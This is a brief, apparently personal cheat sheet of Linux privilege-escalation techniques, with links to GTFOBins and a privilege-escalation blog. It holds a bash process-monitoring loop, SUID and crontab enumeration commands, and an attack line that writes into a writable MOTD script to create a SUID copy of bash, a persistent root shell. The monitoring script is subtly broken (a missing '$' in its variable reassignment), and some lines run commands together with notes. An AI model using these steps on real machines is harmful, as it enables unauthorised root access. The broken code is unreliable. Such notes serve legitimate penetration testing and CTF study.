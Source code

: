 https://gtfobins.github.io/#




# checking processes running every sec
#!/bin/bash

IFS=$'\n'
old_process=$(ps -eo command)

while true; do 
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo "$new_process")  |grep [\<\>]
  sleep 1 
  old_process=new_process 
done

# writable MOTD

echo "cp /bin/bash /home/name/bash && chmod u+s /home/name/bash" >> 00-header

# SUID

find / -perm -4000 2>/dev/null find SUID 
cat /etc/crontab or crontab -l  find cron jobs
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
 